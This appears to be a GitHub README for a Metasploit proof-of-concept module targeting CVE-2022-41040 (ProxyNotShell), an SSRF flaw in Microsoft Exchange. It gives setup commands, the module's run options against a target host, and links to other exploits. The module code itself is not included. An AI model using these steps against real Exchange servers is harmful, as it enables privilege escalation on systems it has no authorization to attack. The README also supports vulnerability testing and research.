 # CVE-2022-41040-metasploit-ProxyNotShell
the metasploit script(POC) about CVE-2022-41040. Microsoft Exchange are vulnerable to a server-side request forgery (SSRF) attack. An authenticated attacker can use the vulnerability to elevate privileges.

# preparation POC
```cmd
git clone https://github.com/TaroballzChen/CVE-2022-41040-metasploit-ProxyNotShell
cd CVE-2022-41040-metasploit-ProxyNotShell
mkdir -p ~/.msf4/modules/auxiliary/scanner/http
cp microsoft_exchange_server_proxynotshell_ssrf.py ~/.msf4/modules/auxiliary/scanner/http/
chmod +x ~/.msf4/modules/auxiliary/scanner/http/microsoft_exchange_server_proxynotshell_ssrf.py
msfconsole
```

# POC usage
```text
set rhosts <vuln ip/host>
set rport <vuln port>
set rssl <default: true for https>
exploit
```

# result
![poc](poc.png)

# reference
- https://www.kb.cert.org/vuls/id/915563
- https://github.com/Vulnmachines/proxynotshell-checker
- https://github.com/kljunowsky/CVE-2022-41040-POC
- https://github.com/zan8in/afrog
- https://github.com/Ph33rr/Exploit